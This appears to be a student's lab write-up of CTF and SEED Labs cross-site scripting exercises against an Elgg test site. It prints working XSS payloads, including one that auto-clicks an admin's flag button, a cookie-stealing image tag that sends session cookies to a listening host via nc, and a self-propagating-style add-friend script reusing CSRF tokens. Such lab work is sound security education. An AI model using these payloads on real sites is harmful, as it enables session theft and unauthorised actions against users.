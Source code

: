 # Work performed during the week #10

## CTF

### Goal

- The objective is to attack the web application with a Cross-Site Scripting (XSS), in order to allow the administrator to provide a flag.

### Challenge 1

- The admin visit the page with our justification and mark the request as not accepted by clicking on button "Mark request as read" or accepted on button "Give the flag".

- The justification has a vulnerability that allows us to input a script that the web app will run, so we input ``<script>document.getElementById('giveflag').click();</script>``.

- This way the button "Give the flag" is clicked when the admin visit the page accepting the request to give the flag.

### Challenge 2

- 

## SeedLab

### Task 1

- For the task 1, we choose to login with the user Alice. After we logged in we went to edit profile and in the input for brief discreption we add the script ``<script>alert('XSS');</script>``.

- This way, every time the brief discreption field is asked for a web page, it will execute the alert we inserted. This justifies why even in the list of users the alert is triggered. Because this list not only the users, but the brief discreption of each user.

### Task 2

- Still using user Alice, we went to edit profile and in the input for brief discreption we add another script. Instead of the script ``<script>alert('XSS');</script>`` we use the script ``<script>alert(document.cookie);</script>``, so we can now print the cookies.

- The result of the alert is ``pvisitor=a6b4dccd-99d9-4a92-a50a-9a850b3592ab; Elgg=i0mr1o4tlhlimds4ncd0da5nb7``.

### Task 3

- In this task, instead of only the user can see the cookies, we want to send an HTTP request with the cookies appended to the request in order so see them.
- In order to do that we user a script that do that, `` <script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script> ``.
- This sript inserts the img tag, the browser tries to load the image from the URL in the src field, this results in an HTTP GET request sent to our machine, with the cookies to the port 5555 of our machine (with IP address 10.9.0.1).
- We use the program ``nc -lknv 5555``, to have a TCP server that listens for a connection on the specified port (5555).
- This program will print out the HTTP request with the cookies of the client.

### Task 4

- In this task, we will use a script that adds Samy as a friend to any other user that visits Samy’s page.
- First we find out how a legitimate user adds a friend in Elgg.
- We use Firefox’s ``HTTP inspection tool`` to help us get what are sent to the server when a user adds a friend.
- Inspectioning the contents of the HTTP GET request that was sent when the add friend button was clicked, we identify all the parameters in the request.
- Finding that the data is attached to the URL ``http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1642154629&__elgg_token=cjBSuLpxRMRNZH0Uoq_zug&__elgg_ts=1642154629&__elgg_token=cjBSuLpxRMRNZH0Uoq_zug``.
- The parameters are placed after the URL by``?`` and separated by ``&``, that parameters being, first ``friend=59`` and the variables ``__elgg_ts``, ``__elgg_token``. 
- The script create a GET request to the URL ``http://www.seed-server.com/action/friends/add`` with the parameters ``friend=59``, ``'__elgg_ts='+elgg.security.token.__elgg_ts;``, ``'__elgg_token='+elgg.security.token.__elgg_token;``.

```
<script type='text/javascript'> 
    window.onload = function () {
        var Ajax=null;
        var ts='&__elgg_ts='+elgg.security.token.__elgg_ts; ➀
        var token='&__elgg_token='+elgg.security.token.__elgg_token; ➁
        var sendurl='http://www.seed-server.com/action/friends/add?friend=59'+ts+token;
        Ajax=new XMLHttpRequest();
        Ajax.open('GET', sendurl, true);
        Ajax.send();
    }
</script>
```
- Sending out the same HTTP request as add-friend HTTP request.
- We placed the script in the ``About Me`` field of Samy’s profile page, after we clicking on option ``Edit HTML`` to enable Text mode.
- Now any other user that visits Samy’s page, will add Samy as a friend.

- Question 1:
The Lines ➀ and ➁, are needed for getting the values of the __elgg_ts and __elgg_token parameters, because they change every time a page is loaded so they need to be accessed dynamically in order to get the correct values.
- Question 2:
If the Elgg application only provided the Editor mode for the ``About me`` field, the attack would not be successful because the The Editor mode adds extra HTML code to the text typed into the field and we do not want any extra code added to our script in order to work.






